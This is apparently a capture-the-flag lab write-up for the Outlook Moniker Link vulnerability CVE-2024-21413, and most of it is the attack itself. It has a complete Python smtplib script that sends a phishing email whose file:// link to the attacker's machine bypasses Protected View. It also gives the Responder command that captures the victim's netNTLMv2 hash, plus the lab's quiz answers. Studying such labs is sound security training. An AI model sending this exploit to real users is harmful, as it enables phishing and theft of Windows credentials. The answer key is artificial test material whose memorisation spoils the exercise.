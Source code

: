 # Attack Process Using Moniker Link 

## Introduction 
This document explains how to conduct an attack by sending an email with a Moniker Link that bypasses Outlook's "Protected View. " The goal is to capture the victim's netNTLMv2 hash when they attempt to load a file from the attacker's machine. 

## Key Points 
1. Crafting the Email: 

• An email is created to be sent to the victim, which includes a Moniker Link designed to exploit a vulnerability. 

• The email structure includes sender and receiver information, subject line, and HTML content with a link. 

2. Proof of Concept (PoC) Code: 

• Provided code in Python uses `smtplib` to send an email. 

• The sender's email address (`attacker@monikerlink. thm`), recipient's email address (`victim@monikerlink. thm`), and the attacker’s email password must be specified. 

3. Setting Up SMTP: 

• The script connects to a specified mail server and requires authentication. 

• If successful, it sends an email containing a link that directs to the attacker's machine. 

4. Launching Responder: 

• An SMB listener is established using Responder on the attacking machine with the command `responder -I ens5`. 

• This helps capture the netNTLMv2 hash when the victim interacts with the email link. 

5. Handling the Victim's Outlook: 

• Guide for opening Outlook, dismissing popups, and accessing the victim's mailbox. 

• The victim is expected to click on the provided hyperlink in the email. 

6. Running the Exploit Script: 

• Final setup includes modifying the PoC's IP address and mail server details. 

• The exploit script is executed, and the attacker's email password is entered. 

7. Capturing the Hash: 
• After the victim clicks the link, the netNTLMv2 hash is captured as a result of the interaction with the attacker's server. 

## Conclusion 
The process involves crafting an email with a Moniker Link, running a Python script to send the email, and setting up an SMB listener to capture sensitive information from the victim when they interact with the email. Successful execution results in obtaining the victim's netNTLMv2 hash.

# Write Up

- Q: What is the name of the application that we use on the AttackBox to capture the user's hash?

- A: responder

- Q: What type of hash is captured once the hyperlink in the email has been clicked?

- A: netNTLMv2

# How to finish this box

Create a File "exploit.py"

``` Python
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://{YOUR MACHINE IP}/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('YOUR MACHINE IP', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

Execute
```bash
responder -I ens5
```

Execute the script
```
python3 exploit.py
(password: attacker)
```